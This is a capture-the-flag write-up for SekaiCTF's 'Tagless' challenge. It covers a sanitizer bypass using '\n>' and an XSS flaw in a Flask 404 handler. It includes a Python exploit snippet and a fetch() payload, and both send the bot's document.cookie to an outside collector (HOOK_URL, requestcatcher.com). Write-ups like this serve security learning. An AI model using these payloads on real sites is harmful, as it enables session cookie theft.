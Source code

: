 # Writeup for SekaiCTF

# Tagless

This was a bot cookie exfiltration challenge. There's two solutions to this.

Background:

So this is a very simple app where you enter a message in a textarea and the message gets displayed on the area below after sanitization.
The sanitization logic is this:

```
function sanitizeInput(str) {
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, ''); 
    return str;
}
```

This basically removes all HTML tags from the input. 

`<.*>`: Matches any string that starts with < and ends with >, including any characters in between.

`<\.*>`: Matches any string that starts with < and ends with >, including any characters in between, but with a literal . character. // I can't understand why this is needed

`<.*>.*<\/.*>`: Matches any string that starts with <, followed by any characters, then >, followed by any characters, then </, followed by any characters, and ending with >.

The bypass was to basically to use '\n>' instead of '>' because most html parsers will overlook this and consider it a valid tag.

In the code we find there is a query parameter auto_input which does the same thing as the textbox,i.e. send an input to sanitizer and then display. So this is surely for the bot.

There is also an 404 handler route which has this code:
```
@app.errorhandler(404)
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```
Its directly appending the path to the return which is vulnerbale to XSS.

Exploit:

Method one:
The exploit is basically to send this payload as auto_input value to the report url.

```
js2 = urllib.parse.quote(f"t/; window.location=\"{HOOK_URL}/?c=\" + btoa(document.cookie); //")
js = f"<script src=\"http://127.0.0.1:5000/{js2}\"></script>"

# Sanitize bypass
js = urllib.parse.quote(js.strip().replace(">","\n>"))

url = f"http://127.0.0.1:5000/?auto_input={js}"
r = requests.post(f"{BASE_URL}/report", data={"url": url})

```

Method 2:

We use the error handler logic. We can check for XSS by using this POC:

`https://tagless.chals.sekai.team/%3Cscript%20src=%22/**/alert(document.domain)//%22%3E%3C/script%3E`

which shows an alert box.

So our final payload is: 

```http://127.0.0.1:5000/<script src="/**/fetch(`https://byc.requestcatcher.com//?cookie=${document.cookie}`)//"></script>``` which needs to be url encoded and sent to bot.
